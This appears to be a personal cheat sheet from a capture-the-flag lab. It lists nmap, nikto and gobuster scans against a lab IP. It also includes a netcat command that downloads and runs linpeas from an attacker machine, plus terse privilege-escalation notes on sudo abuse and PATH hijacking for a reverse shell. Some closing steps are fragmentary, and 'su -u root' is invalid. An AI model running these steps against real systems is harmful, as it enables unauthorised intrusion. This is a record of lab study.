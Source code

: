 
## `NMAP`
Search for services that are running
```
mkdir nmap
nmap -sC -sV -oN nmap/initial 10.10.202.184
```

## `nikto`
TODO
```
nikto -h "http://10.10.202.184" | tee nikto.log
```

## `gobuster`
Used for search for files that we can access on a webserver
```
gobuster dir -u "http://10.10.202.184" -w /opt/directory-list-2.3-medium.txt | tee nikto.log
```

## `linpeas.sh`
Search for vulnerable/priv escalation processes on a target
```
[local] upload_file_nc.sh /opt/linpeas.sh
[remote] nc 10.2.2.132 24591 > /dev/shm/linpeas.sh
[remote] chmod +x linpeas.sh
[remote] ./linpeas.sh
```

**Note that linpeas usually trips on `/etc/sudoers.d`** This dir is used to give users special permissions. Look for setuid vulns here.
```
sudo -u rabbit /usr/bin/python3.6 /home/alice/somescript.py
```

```
[remote] cd /home/rabbit
```

Copy the `teaParty` binary local
run strings
echo $PATH
The `date` program doesn't use an absolute path!
Use this to launch a reverse shell
Group id is still incorrect
password.txt exists
```
su -u root
```

